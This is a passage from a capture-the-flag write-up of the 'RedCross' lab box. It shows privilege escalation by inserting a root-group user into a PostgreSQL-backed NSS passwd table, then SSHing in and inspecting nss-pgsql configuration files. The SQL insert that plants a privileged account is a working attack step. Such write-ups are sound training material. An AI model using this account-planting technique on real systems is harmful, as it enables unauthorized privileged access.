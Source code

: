 

### Path 2: Via unixnssroot

#### Create User With root Group

I confirmed with the box author that the intended path was as follows.

I'll create a user just as the previous times with the root group id:



    unix=> insert into passwd_table (username, passwd, gid, homedir) values ('ro0xdft', '$1$wV7CPbj9$59kAklYgquXe5TuJYIT591', 0, '/root');
    INSERT 0 1



And ssh in:



    root@kali# ssh ro0xdft@10.10.10.113
    ro0xdft@10.10.10.113's password: 
    Linux redcross 4.9.0-6-amd64 #1 SMP Debian 4.9.88-1+deb9u1 (2018-05-07) x86_64

    The programs included with the Debian GNU/Linux system are free software;
    the exact distribution terms for each program are described in the
    individual files in /usr/share/doc/*/copyright.

    Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
    permitted by applicable law.
    ro0xdft@redcross:~$ id
    uid=2024(ro0xdft) gid=0(root) groups=0(root)



I have the root group, but I still can't read `root.txt`, as it's only
readable to the root user:



    ro0xdft@redcross:~$ cat root.txt 
    cat: root.txt: Permission denied

    ro0xdft@redcross:~$ ls -l root.txt 
    -rw------- 1 root root 33 Jun  8  2018 root.txt



#### Find psql Configs

The jail in use here is based on something called Name Service Switch,
which allows you to store user and group information in a database.
PostgreSQL has a plugin for this (here's an [interesting
blog](http://www.karoltomala.com/blog/?p=869) for more reading).

There are two configuration files the article lists that define querying
information from the database and feeding it to NSS: `nss-pgsql.conf`
and `nss-pgsql-root.conf`. I can see both of those on RedCross:



    ro0xdft@redcross:/etc$ ls -l nss-pgsql*
    -rw-r--r-- 1 root root 1341 Jun  8  2018 nss-pgsql.conf
    -rw-rw---- 1 root root  540 Jun  8  2018 nss-pgsql-root.conf
